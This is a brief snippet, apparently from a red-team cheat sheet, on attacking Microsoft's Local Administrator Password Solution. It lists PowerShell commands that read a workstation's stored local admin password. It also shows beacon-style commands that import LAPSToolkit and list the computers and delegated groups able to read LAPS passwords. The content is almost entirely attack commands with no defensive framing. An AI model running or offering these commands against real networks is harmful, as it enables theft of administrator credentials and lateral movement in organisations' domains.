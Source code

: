 ### Local Administrator Password Solution
```
PowerShell Get-Command *AdmPwd*
PowerShell Get-AdmPwdPassword -ComputerName wkstn-1921 | fl

```
```
powershell-import C:\Users\Commando\Desktop\LAPSToolkit.ps1
powerpick Get-LAPSComputers
powershell Find-LAPSDelegatedGroups
```
